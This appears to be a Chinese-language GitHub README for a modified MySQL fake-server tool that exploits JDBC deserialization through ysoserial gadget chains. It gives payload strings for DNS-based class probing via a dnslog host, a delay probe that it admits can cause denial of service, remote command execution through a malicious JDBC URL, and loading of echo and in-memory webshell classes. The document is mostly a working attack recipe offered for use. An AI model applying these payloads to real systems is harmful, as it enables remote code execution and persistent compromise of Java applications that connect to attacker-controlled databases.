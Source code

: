 ### MySQL_Fake_Server-master-啄木鸟yso适配版
原项目：https://github.com/fnmsd/MySQL_Fake_Server
yso地址：https://github.com/woodpecker-framework/ysoserial-for-woodpecker
`JMG`:https://github.com/pen4uin/java-memshell-generator
`JEG`:https://github.com/pen4uin/java-echo-generator

在JDBC反序列化利用过程中出现由于原版yso功能比较单一导致注入内存马的时候比较麻烦所以修改脚本适配ysoserial-for-woodpecker以实现便捷利用漏洞

文件读取未修改

修改userna传参分隔符为‘-’

yso-链-指令

如：yso-CommonsCollections10-sleep:10

#### dns探测class依赖：

```
yso-FindClassByDNS-http://java.lang.String.gpid7sbq.dnslog.pw|java.lang.String
```

![图片](https://github.com/user-attachments/assets/d6d2aaf4-1791-44d2-9705-153450a6adc6)


#### 延时探测class：

实战深度一般在25-28之间，太大会导致dos

```
yso-FindClassByBomb-java.lang.String|28
```

#### 命令执行:

```
url:jdbc:mysql://192.168.157.129:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
username:yso-CommonsCollections10-raw_cmd:calc
```
![图片](https://github.com/user-attachments/assets/fcf9aef2-5701-45d4-9a73-cd6157e6a601)


#### 回显:

class文件由`jEG`生成

```
yso-CommonsCollections10-class_file:/tmp/HttpUtil.class  //class文件在vps的路径
```

![图片](https://github.com/user-attachments/assets/6d256ac3-c10a-4f2d-ab55-577df72fae64)


#### 内存马：

`JMG`生成class

```
yso-CommonsCollections10-class_file:/tmp/DateUtil.class
```

![图片](https://github.com/user-attachments/assets/6d8d6313-f583-44e5-93d4-c730d8041ed6)


文件上传等其他操作参考：

https://github.com/woodpecker-framework/ysoserial-for-woodpecker


